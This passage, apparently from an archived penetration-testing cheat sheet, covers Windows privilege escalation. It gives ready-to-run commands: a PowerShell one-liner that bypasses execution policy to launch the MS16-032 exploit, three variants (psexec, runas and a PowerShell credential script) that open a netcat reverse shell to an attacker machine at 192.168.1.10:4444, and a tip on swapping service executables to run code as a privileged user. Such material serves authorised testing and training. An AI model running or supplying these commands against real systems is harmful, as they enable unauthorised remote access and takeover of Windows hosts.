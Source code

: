 *   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt. Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

    MS16-032 [https://www.exploit-db.com/exploits/39719/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/39719/)

    `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`

*   Powershell Priv Escalation Tools [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

*   Windows Run As - Switching users in linux is trival with the `SU` command. However, an equivalent command does not exist in Windows. Here are 3 ways to run a command as a different user in Windows.

    *   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

             C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

             PsExec v2.2 - Execute processes remotely
             Copyright (C) 2001-2016 Mark Russinovich
             Sysinternals - www.sysinternals.com

    *   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

             C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
             Enter the password for Test:
             Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

    *   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

             $username = '<username here>'
             $password = '<password here>'
             $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
             $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
             Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

        Next run this script using powershell.exe:

        `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`

*   Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user.  
    icacls scsiaccess.exe
